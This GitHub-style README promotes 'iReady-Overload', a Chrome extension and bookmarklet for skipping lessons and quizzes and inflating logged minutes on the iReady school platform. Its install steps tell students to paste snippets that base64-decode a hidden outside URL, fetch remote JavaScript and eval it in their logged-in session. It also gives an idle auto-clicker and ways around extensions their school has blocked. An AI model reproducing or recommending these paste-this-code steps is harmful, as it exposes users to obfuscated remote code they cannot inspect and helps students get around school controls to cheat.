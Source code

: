update 12/12: do not use, there is a risk of your account being blocked.
# iReady-Overload
iReady is awful. It's the worst education tool anyone could ever use. I'm fed up with being forced to mindlessly watch the result of a greedy corporation that doesn't try in the SLIGHTEST to make their product enjoyable, or even acceptable. This repository is a collection of hacks and a chrome extension that ensures nobody has to suffer through iReady ever again. The current version has a lesson, quiz skipper, and a minutes hack. 

As of 12/4, github says this repo has ~14,000 downloads meaning 14,000 less people having to use iReady. Problem is, that barely makes a dent in iReady's 10,000,000+ students (0.0014%). If your school uses iReady, recommend this extension. They'll thank you. 

# How to use/install
Download the chrome extension by clicking [here](https://github.com/Ireadycoder/iReady-OverLoad-update?raw=true)

Go to "chrome://extensions/", and on the top right make sure "Developer mode" is turned on (if your school blocks this, see the bookmarklet below)
then unzip chromeExtension.zip and drag the "iReady Overload" folder onto the page and ur good

# Bookmarklet

A bookmarklet can be used instead of the chrome extension, incase your school has blocked extentions. To do this:

1. Make a bookmark (the star on the right side of the top url/search bar if you are using chrome)
2. Click on more at the bottom left corner
3. Delete everything in the url box
4. Type javascript:
5. Paste in the following code
```fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vY3VwaWRpdHlzL3Jhdy91cGxvYWQvdjE2MzgzNDExMjEvYm9va21hcmtsZXQuanM=')).then((res) => res.text().then((t) => eval(t)))```
(this will auto-update)

Alternatively, you can use [this version](https://github.com/cupiditys/iReady-Overload/blob/main/bookmarklet.txt) if the other one is not working for whatever reason (this one will not auto-update)

# How to avoid being AFK-kicked
press ctrl + shift + i, press console tab at top and paste the stuff below in and obviously press enter
```
setInterval(lol, 60000)
function lol() {
    document.getElementById("btn-footer-MY_PROGRESS").click()
    document.getElementById("btn-footer-TO_DO").click()
}
```

# Extra
credit to ArjhanToteck for originally making this (but he deleted his)

If lesson glitches and says wait click the green arrow to continue and won't let you on the lesson paste this code to fix- fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vY3VwaWRpdHlzL3Jhdy91cGxvYWQvdjE2MzkxOTI0MTQvc19qMnU5ZnMuanM')).then((res) => res.text().then((t) => eval(t)))
